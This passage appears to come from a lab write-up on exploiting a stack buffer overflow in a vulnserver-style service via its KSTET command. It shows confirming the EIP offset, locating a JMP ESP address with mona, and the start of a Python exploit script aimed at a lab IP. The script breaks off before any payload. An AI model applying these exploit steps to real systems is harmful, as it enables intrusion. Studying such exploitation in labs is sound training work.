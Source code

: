 After sending our current exploit, we have been able to overwrite the EIP with all "B"s. This verifies out offset is correct.

![](images/verify_offset.png)

-----

## Locating JMP ESP address

Now that we can control the instruction pointer, let's find a `JMP ESP` instruction to try an execute code on the stack. This can be done within Immunity Debugger with mona.

```
!mona jmp -r esp
```

![](images/mona.png)

Based on the output of mona, it is best if we choose an address with no protections (ascii if possible). Let's choose `0x62501203`. Now let's by using a breakpoint, let's verify we can cause the application to go to our chosen address.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66
```